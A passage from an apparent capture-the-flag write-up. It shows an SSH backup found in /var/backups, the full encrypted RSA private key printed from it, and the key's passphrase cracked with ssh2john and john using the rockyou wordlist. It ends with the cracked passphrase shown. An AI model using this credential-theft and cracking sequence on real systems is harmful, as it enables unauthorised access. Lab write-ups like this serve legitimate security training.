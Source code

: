 ![](Pasted image 20250402130331.png)

If we look around, we can find this inside of `/var/backups`:

![](Pasted image 20250402132010.png)

We got a `ssh-backup.tar.gz`, if we look at the `home` directory, we find there's an user called `server-managment`, if we are able to unzip this file, we may be able to get either the credentials or the `id_rsa` of this user, let's get it in our local machine:

![](Pasted image 20250402132117.png)

There we go, we got the `id_rsa`:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6CE1A97A7DAB4829FE59CC561FB2CCC4

mRFDRL15t7qvaZxJGHDJsewnhp7wESbEGxeAWtCrbeIVJbQIQd8Z8SKzpvTMFLtt
dseqsGtt8HSruVIq++PFpXRrBDG5F4rW5B6VDOVMk1O9J4eHEV0N7es+hZ22o2e9
60qqj7YkSY9jVj5Nqq49uUNUg0G0qnWh8M6r8r83Ov+HuChdeNC5CC2OutNivl7j
dmIaFRFVwmWNJUyVen1FYMaxE+NojcwsHMH8aV2FTiuMUsugOwZcMKhiRPTElojn
tDrlgNMnP6lMkQ6yyJEDNFtn7tTxl7tqdCIgB3aYQZXAfpQbbfJDns9EcZEkEkrp
hs5Li20NbZxrtI6VPq6/zDU1CBdy0pT58eVyNtDfrUPdviyDUhatPACR20BTjqWg
3BYeAznDF0MigX/AqLf8vA2HbnRTYWQSxEnAHmnVIKaNVBdL6jpgmw4RjGzsUctk
jB6kjpnPSesu4lSe6n/f5J0ZbOdEXvDBOpu3scJvMTSd76S4n4VmNgGdbpNlayj5
5uJfikGR5+C0kc6PytjhZrnODRGfbmlqh9oggWpflFUm8HgGOwn6nfiHBNND0pa0
r8EE1mKUEPj3yfjLhW6PcM2OGEHHDQrdLDy3lYRX4NsCRSo24jtgN1+aQceNFXQ7
v8Rrfu5Smbuq3tBjVgIWxolMy+a145SM1Inewx4V4CX1jkk6sp0q9h3D03BYxZjz
n/gMR/cNgYjobbYIEYS9KjZSHTucPANQxhUy5zQKkb61ymsIR8O+7pHTeReelPDq
nv7FA/65Sy3xSUXPn9nhqWq0+EnhLpojcSt6czyX7Za2ZNP/LaFXpHjwYxBgmMkf
oVmLmYrw6pOrLHb7C5G6eR6D/WwRjhPpuhCWWnz+NBDQXIwUzzQvAyHyb7D1+Itn
MesF+L9zuUADGeuFl12dLahapM5ZuKURwnzW9+RwmmJSuT0AnN5OyuJtwfRznjyZ
7f5NP9u6vF0NQHYZI7MWcH7PAQsGTw3xzBmJdIfF71DmG0rqqCR7sB2buhoI4ve3
obvpmg2CvE+rnGS3wxuaEO0mWxVrSYiWdi7LJZvppwRF23AnNYNTeCw4cbvvCBUd
hKvhau01yVW2N/R8B43k5G9qbeNUmIZIltJZaxHnQpJGIbwFSItih49Fyr29nURK
ZJbyJbb4+Hy2ZNN4m/cfPNmCFG+w0A78iVPrkzxdWuTaBOKBstzpvLBA20d4o3ow
wC6j98TlmFUOKn5kJmX1EQAHJmNwERNKFmNwgHqgwYNzIhGRNdyoqJxBrshVjRk9
GSEZHtyGNoBqesyZg8YtsYIFGppZFQmVumGCRlfOGB9wPcAmveC0GNfTygPQlEMS
hoz4mTIvqcCwWibXME2g8M9NfVKs7M0gG5Xb93MLa+QT7TyjEn6bDa01O2+iOXkx
0scKMs4v3YBiYYhTHOkmI5OX0GVrvxKVyCJWY1ldVfu+6LEgsQmUvG9rYwO4+FaW
4cI3x31+qDr1tCJMLuPpfsyrayBB7duj/Y4AcWTWpY+feaHiDU/bQk66SBqW8WOb
d9vxlTg3xoDcLjahDAwtBI4ITvHNPp+hDEqeRWCZlKm4lWyI840IFMTlVqwmxVDq
-----END RSA PRIVATE KEY-----
```

We need a passphrase in order to use this key, we can crack it using john, let's do the following:

```
ssh2john id_rsa > id_rsa.hash

john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt

oneTWO3gOyac     (id_rsa)
```
